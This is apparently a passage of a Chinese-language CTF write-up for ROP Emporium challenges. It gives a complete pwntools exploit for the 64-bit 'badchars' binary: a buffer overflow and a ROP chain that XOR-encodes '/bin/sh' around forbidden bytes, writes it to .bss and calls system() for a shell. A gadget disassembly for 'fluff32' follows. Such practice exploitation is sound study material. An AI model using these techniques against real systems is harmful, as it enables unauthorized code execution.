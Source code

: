 ```python
```


## badchars

改為 64-bit

```python 
#!/usr/bin/env python 
from pwn import *
context.arch = 'amd64'
r = process('/tmp/p/badchars')

bad = [0x62, 0x69, 0x63, 0x2F, 0x20, 0x66, 0x6E, 0x73]
xor_bit = 0x2
sh_encode = xor('/bin/sh\x00', xor_bit)
trash = 'a'*40
bss = 0x00602000 - 0x100
system_plt = 0x4006f0
xor_r15_r14b = 0x0000000000400b30
mov_dr13_r12 = 0x0000000000400b34
pop_r12_r13 = 0x0000000000400b3b
pop_r14_r15_ret = 0x0000000000400b40
pop_rdi_ret = 0x0000000000400b39

payload = flat([ pop_r12_r13, sh_encode, bss, mov_dr13_r12 ])
for i in range(8):
	payload += flat([ pop_r14_r15_ret, xor_bit, bss+i, xor_r15_r14b ])
payload += flat([pop_rdi_ret, bss, system_plt])

r.sendline(trash + payload)
r.interactive()
```


## fluff32

這題主要差別在 gadget 給的不好找

題目裡面有特別給
```
08048670 <questionableGadgets>:
 8048670:       5f                      pop    edi
 8048671:       31 d2                   xor    edx,edx
 8048673:       5e                      pop    esi
 8048674:       bd be ba fe ca          mov    ebp,0xcafebabe
 8048679:       c3                      ret
 804867a:       5e                      pop    esi
 804867b:       31 da                   xor    edx,ebx
 804867d:       5d                      pop    ebp
 804867e:       bf be ba ad de          mov    edi,0xdeadbabe
 8048683:       c3                      ret
 8048684:       bf ef be ad de          mov    edi,0xdeadbeef
 8048689:       87 ca                   xchg   edx,ecx
 804868b:       5d                      pop    ebp
 804868c:       ba d0 ce fa de          mov    edx,0xdefaced0
 8048691:       c3                      ret
 8048692:       5f                      pop    edi
 8048693:       89 11                   mov    DWORD PTR [ecx],edx
 8048695:       5d                      pop    ebp
 8048696:       5b                      pop    ebx
 8048697:       30 19                   xor    BYTE PTR [ecx],bl
 8048699:       c3                      ret
 804869a:       66 90                   xchg   ax,ax
 804869c:       66 90                   xchg   ax,ax
```